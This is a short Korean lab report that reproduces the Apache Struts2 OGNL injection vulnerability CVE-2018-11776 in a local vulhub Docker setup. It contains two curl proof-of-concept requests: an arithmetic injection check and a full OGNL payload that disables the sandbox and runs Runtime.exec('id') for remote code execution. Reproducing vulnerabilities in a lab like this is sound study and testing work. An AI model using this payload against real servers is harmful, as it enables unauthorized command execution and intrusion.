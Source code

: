 # CVE-2018-11776 Report (S2-057)

## 1. 개요
Apache Struts2의 URL 매핑 처리 취약점을 이용하여 OGNL 인젝션을 통해 원격 코드 실행(RCE)이 가능한 취약점입니다.

## 2. 환경 구축 방법

- 베이스 이미지: `vulhub/struts2:2.3.34-showcase`
- 추가 구성:
  - `struts-actionchaining.xml` 파일을 덮어쓰기하여 취약한 설정 적용
- 포트 매핑: `8080:8080`
- 사용한 파일:
  - `docker-compose.yml`
  - `Dockerfile`
  - `struts-actionchaining.xml`

## 3. 실행 방법

```bash
docker-compose up
```
브라우저 접속: 
```
http://localhost:8080/showcase/
```


## 4. 취약점 PoC
### 4.1 계산식 인젝션 테스트 
```
curl -i "http://localhost:8080/struts2-showcase/%24%7B233*233%7D/actionChain1.action"
```
결과: HTTP Location 헤더에 /54289/ 리다이렉트 → OGNL 인젝션 성공

###
4.2 원격 코드 실행 (RCE) 테스트
```
curl -i "http://localhost:8080/struts2-showcase/%24%7B(%23dm=%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS).(%23ct=%23request['struts.valueStack'].context).(%23cr=%23ct['com.opensymphony.xwork2.ActionContext.container']).(%23ou=%23cr.getInstance(%40com.opensymphony.xwork2.ognl.OgnlUtil%40class)).(%23ou.getExcludedPackageNames().clear()).(%23ou.getExcludedClasses().clear()).(%23ct.setMemberAccess(%23dm)).(%23a=%40java.lang.Runtime%40getRuntime().exec('id')).(%40org.apache.commons.io.IOUtils@toString(%23a.getInputStream()))%7D/actionChain1.action"
```

결과: 서버에서 id 명령어 결과 출력 → RCE 성공
